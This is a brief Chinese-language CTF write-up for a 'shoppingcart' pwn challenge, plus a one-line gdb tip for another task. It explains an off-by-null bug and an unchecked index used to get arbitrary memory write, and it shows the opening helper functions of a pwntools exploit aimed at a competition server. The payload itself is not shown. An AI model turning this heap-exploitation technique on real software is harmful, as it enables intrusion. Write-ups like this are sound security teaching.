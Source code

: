 # sixstars writeup

## gettingstart
使用gdb运行，在比较判断出下断点查看内存，按照内存的内容重新输入

## shoppingcart

在edit函数里存在溢出一个00字节，同时没有对index进行检查。

主要思路是通过连续添加20次money，利用后面的off by null修改bss上的指针，实现任意内存写。

```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
context.log_level="debug"
pwn_file="./task_shoppingCart"
elf=ELF(pwn_file)
libc=elf.libc
#libc=ELF("./libc.so.6")
#heap_add=0
#stack_add=0
if len(sys.argv)==1:
    r=process(pwn_file)
    pid=r.pid
else:
    r=remote("49.4.79.184",30645)
    pid=0

def debug():
    log.debug("process pid:%d"%pid)
    #log.debug("stack add:0x%x"%stack_add)
    #log.debug("heap add:0x%x"%heap_add)
    log.debug("libc add:0x%x"%libc.address)
    log.debug("pie address: 0x%x"%elf.address)
    pause()

def add(size,name):
    r.sendlineafter("Now, buy buy buy!\n","1")
    r.sendlineafter("How long is your goods name?",str(size))
    r.sendafter("What is your goods name?",name)

def dele(idx):
    r.sendlineafter("Now, buy buy buy!\n","2")
    r.sendlineafter("Which goods that you don't need?\n",str(idx))

def edit(idx,buf):
    r.sendlineafter("Now, buy buy buy!\n","3")
    r.sendlineafter("Which goods you need to modify?\n",str(idx&0xffffffffffffffff))
    r.recvuntil("OK, what would you like to modify ")
    con=r.recvuntil(" to")[:-3]
    r.send(buf)
    return con

def add_money(buf):
    r.sendlineafter("EMMmmm, you will be a rich man!\n","1")
    r.sendlineafter("RMB or Dollar?\n",buf)

def out():
    r.sendlineafter("EMMmmm, you will be a rich man!\n","3")

```